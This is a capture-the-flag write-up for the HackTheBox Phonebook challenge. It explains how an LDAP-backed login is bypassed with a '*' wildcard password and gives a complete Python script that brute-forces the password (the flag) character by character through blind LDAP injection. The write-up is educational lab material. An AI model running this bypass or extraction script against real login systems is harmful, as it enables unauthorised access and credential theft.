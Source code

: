 # HackTheBox Phonebook
## Reconnaisance
After booting up the challenge, we are greeted with the following login screen:
![Login screen](/web/HTB_Phonebook/images/login.PNG)
This screen reveals some interesting information. First of all, the website allows for logging in with workstation usernames and passwords. It is thus most likely connected to Active Directory in some way. Second, there is most likely a user named Reese.

My first idea here was to use dirbuster to see if there were any files exposed that would reveal workstation credentials. However, my dirbuster scan did not result in any interesting files. Instead, I went researching what technology could be behind the AD login to see what it is that we are attacking. My search resulted in the following two forum posts:

![Using active directory to authenticate users on intranet site](https://stackoverflow.com/questions/17773643/using-active-directory-to-authenticate-users-on-intranet-site)

![What is it called when you can log into multiple workstations with one username and password](https://askubuntu.com/questions/727504/what-is-it-called-when-you-can-log-into-multiple-workstations-with-one-username)

These posts revealed that we are most likely looking at an LDAP login. Searching for LDAP vulnerabilities result in tons of pages about LDAP injection including an ![OWASP LDAP Injection](https://owasp.org/www-community/attacks/LDAP_Injection) page. At this point I spent some time reading up on LDAP injection, and found a nice ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) resource. This page describes in detail how LDAP injection works, so if it is a new topic for you as well I highly suggest reading up on this. 

## LDAP injection
To summarize, LDAP injection works somewhat similar to SQL injection. The username and password are put into a query that is evaluated. Interestingly, the queries can allow wildcards with `*`. As we don't have the code running and thus don't (yet) know what the query looks like, lets try using a wildcard `*`.

Remember that at the start of the challenge we identified the user Reese. We can try to login using the username `Reese`, and as password we can use `*`. This works! We land on a page that seems to be the actual phonebook. We can search through the phonebook on this page, which results in some names with email addresses and phone numbers. However, there is nothing that immediately looks like it would contain a flag.

![Phonebook](/web/HTB_Phonebook/images/phonebook.PNG)

Here I got stuck for a bit, as it was not clear what we should attack next to get the flag for the challenge. I read through the ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) page again, and realised we might want to try blind exploitation. This allows us to brute force the password one by one, whereas previously we just bypassed the password altogether. This allows us to figure out the password, which will hopefully be the flag for the challenge. We can test if Reese's password contains the flag by logging in with the username `Reese`, and password `HTB*`. This will be successful if the password starts with `HTB`, indicating it is a flag. Luckily, this works!

Bruteforcing the password by hand will take quite a lot of work, especially considering flags often contain both uppercase and lowercase letters, as well as numbers and some other characters. Let's thus create a script for this. This script should brute force character by character, and add the character to the password if the login succeeds. Testing the login by hand reveals that both successful and unsuccessful logins result in a redirect (HTTP status code 302), but a successful login redirects to `/` and an unsuccessful one redirects to `/login?message=Authentication%20failed`. 

Below is the Python script I created to extract the flag:

```
import requests
import string

TARGET_URL = "http://<IP>:<PORT>" # Change to actual IP and PORT
LOGIN_PATH = "/login"
USERNAME = "Reese"
PASSWORD = ""

CHARACTER_SET = string.ascii_letters + string.digits + '_-{}!'


def check_password(username, password):
    login_url = f"{TARGET_URL}{LOGIN_PATH}"
    data = {
        "username": username,
        "password": password
    }
    response = requests.post(login_url, data=data, allow_redirects=False)
    redirect_location = response.headers.get('Location')
    if redirect_location == "/":
        return True
    else:
        return False



while True:
    for char in CHARACTER_SET:
        current_guess = PASSWORD + char
        print(f"[*] Progress: {current_guess}", end='\r')
        if check_password(USERNAME, current_guess + "*"):
            PASSWORD += char
            break
    if char == "}":
        break
    
print(f"\n[*] Found password: {PASSWORD}")
```
